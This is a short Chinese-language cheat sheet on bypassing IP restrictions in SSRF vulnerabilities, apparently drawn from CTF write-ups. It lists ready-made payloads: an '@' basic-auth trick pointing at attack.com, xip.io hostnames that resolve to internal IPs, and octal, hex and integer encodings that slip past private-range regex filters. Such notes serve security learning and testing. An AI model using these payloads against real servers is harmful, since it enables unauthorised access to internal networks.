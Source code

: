 # 0x01 前言
通常SSRF里的绕过，是指对请求IP限制的绕过。

# 0x02 绕过方法汇总
## 法一： http基础认证
http基础认证 user@domain.com

若限制好了只能调用一个固定的域名,如www.baidu.com下的内容，则可用以下payload绕过：
```
www.baidu.com@attack.com
```
## 法二：xip.io
传送门：http://xip.io/ 。它处理类似[ip].xip.io的dns解析请求时,返回的ip总是指向[ip]。

情景一：单纯请求 www.baidu.com 时
payload1:
```
111.13.100.91.xip.io
```

情景二：后端对请求是否是内网地址做了过滤。
payload2:
```
http://内网ip.xip.io
```

## 法三：IP化妆
情景一： 后端进行了正则匹配的方法过滤内网ip：
```
    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```
可以对ip进行进制编码，从而绕过。比如对于 192.168.0.1
payload1:
```
    (1)、8进制格式：0300.0250.0.1

    (2)、16进制格式：0xC0.0xA8.0.1

    (3)、10进制整数格式：3232235521

    (4)、16进制整数格式：0xC0A80001

```

利用一些特殊缩写。比如对于：10.0.0.1
payload2：
```
10.1
```

# 0x03 Refference
+ [SSRF漏洞中绕过IP限制的几种方法总结 ](http://www.freebuf.com/articles/web/135342.html)
+ [math1as:CUIT-CTF WriteUp总结](http://www.math1as.com/index.php/archives/70/)